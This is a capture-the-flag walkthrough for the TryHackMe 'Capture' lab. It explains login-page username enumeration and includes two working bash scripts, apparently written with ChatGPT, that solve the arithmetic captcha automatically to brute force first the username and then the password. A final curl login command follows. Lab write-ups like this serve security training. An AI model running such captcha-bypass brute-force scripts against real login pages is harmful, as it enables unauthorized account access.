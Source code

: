 # TryHackMe Capture Full Walkthrough

## Topics

- **Authentication bypass**  
- **Captcha bypass**
- **Scripting**

## Login page enumeration

Navigating to the site we are presented with a login page: 

![image](https://github.com/user-attachments/assets/f334ea32-66cf-4e46-80f3-d2dfba265526)

Lets put in some values in the input fields and see what sort of error message we get:

![image](https://github.com/user-attachments/assets/e0ddb161-76d2-4aa3-a975-98d618755a9a)

We can see here that the username field is vulnerable to username enumeration. This means that if we input the correct username it should give us a different error message. But we cannot just brute force the field with usernames.txt as the challenge states there is rate limiting involved.

This can be tested and seen if we enter the random values into the username and password fields several time. We will eventually end up with a captcha that looks something like this: 

![image](https://github.com/user-attachments/assets/8bed5783-47b4-4fc8-bacd-090977a8a6c9)

Once we solve the captcha then we get the same error message we got before:

![image](https://github.com/user-attachments/assets/f9f38a43-b2dc-412d-a822-584efb7e4940)

However, the mathematical problem is now different. So essentially for each username we brute force from our usernames.txt we will face a different mathematical problem each time that we need solve each time. So how can we speed things up?

## Scripting

We will need to write a script that can essentially brute force the username field with usernames.txt and solve the captcha fields for every single request we make. Lets call upon our friend ChatGPT to do this for us.

userenum script:

```bash
#!/bin/bash

# Loop through each username in the usernames.txt file
while IFS= read -r username
do
  # Fetch the HTML response for the username
  response=$(curl -s -X POST -d "username=$username&password=x" http://10.10.37.22/login)

  # Extract the CAPTCHA math question from the HTML
  captcha_question=$(echo "$response" | grep -oP '\d+ [\+\-\*/] \d+')

  # Extract the first number, operator, and second number from the CAPTCHA question
  num1=$(echo "$captcha_question" | awk '{print $1}')
  operator=$(echo "$captcha_question" | awk '{print $2}')
  num2=$(echo "$captcha_question" | awk '{print $3}')

  # Solve the CAPTCHA
  if [ "$operator" == "+" ]; then
    captcha_answer=$((num1 + num2))
  elif [ "$operator" == "-" ]; then
    captcha_answer=$((num1 - num2))
  elif [ "$operator" == "*" ]; then
    captcha_answer=$((num1 * num2))
  elif [ "$operator" == "/" ]; then
    captcha_answer=$((num1 / num2))
  fi

  # Send the POST request with the solved CAPTCHA
  response=$(curl -s -X POST -d "username=$username&password=admin&captcha=$captcha_answer" http://10.10.37.22/login)

  # Check if the user exists or not
  if echo "$response" | grep -q "The user &#39;$username&#39; does not exist"; then
    echo "User $username does not exist"
  else
    echo "Found valid user: $username"
    break
  fi
done < usernames.txt
```
Running this script we can find our valid username:

![image](https://github.com/user-attachments/assets/e770a6c4-5583-476d-972d-b47696b2dc11)

Now we just need to do the exact same thing but for the password field.

![image](https://github.com/user-attachments/assets/d87b23a0-d264-4de7-9bfe-fc117682d3a6)

We can see from the error message we have the correct username. We can re-use our script but just tweak it a bit to make it work for password. Doing this we get the following:

Password script

```bash
#!/bin/bash

# Loop through each password in the passwords.txt file
while IFS= read -r password
do
  # Fetch the HTML response for the password
  response=$(curl -s -X POST -d "username=natalie&password=$password" http://10.10.37.22/login)

  # Extract the CAPTCHA math question from the HTML
  captcha_question=$(echo "$response" | grep -oP '\d+ [\+\-\*/] \d+')

  # Extract the first number, operator, and second number from the CAPTCHA question
  num1=$(echo "$captcha_question" | awk '{print $1}')
  operator=$(echo "$captcha_question" | awk '{print $2}')
  num2=$(echo "$captcha_question" | awk '{print $3}')

  # Solve the CAPTCHA
  if [ "$operator" == "+" ]; then
    captcha_answer=$((num1 + num2))
  elif [ "$operator" == "-" ]; then
    captcha_answer=$((num1 - num2))
  elif [ "$operator" == "*" ]; then
    captcha_answer=$((num1 * num2))
  elif [ "$operator" == "/" ]; then
    captcha_answer=$((num1 / num2))
  fi

  # Send the POST request with the solved CAPTCHA
  response=$(curl -s -X POST -d "username=natalie&password=$password&captcha=$captcha_answer" http://10.10.37.22/login)

  # Check if the password exists or not
  if echo "$response" | grep -q "Invalid password for user &#39;natalie&#39;"; then
    echo "password $password does not exist"
  else
    echo "Found valid password: $password"
    break
  fi
done < passwords.txt
```


Running this we get the password:

![image](https://github.com/user-attachments/assets/7bf27dc4-1222-4d49-9ee8-3ed4f4d58879)

Now we can login and obtain our flag:


![image](https://github.com/user-attachments/assets/d27caa47-a299-45c0-ab43-a29083412be2)

Note you may need to run the following command a few times if it does not work. Note these are just Arbitrary values

```sh
curl -X POST -d 'username=admin&password=admin&captcha=405' http://10.10.131.181/login
```

















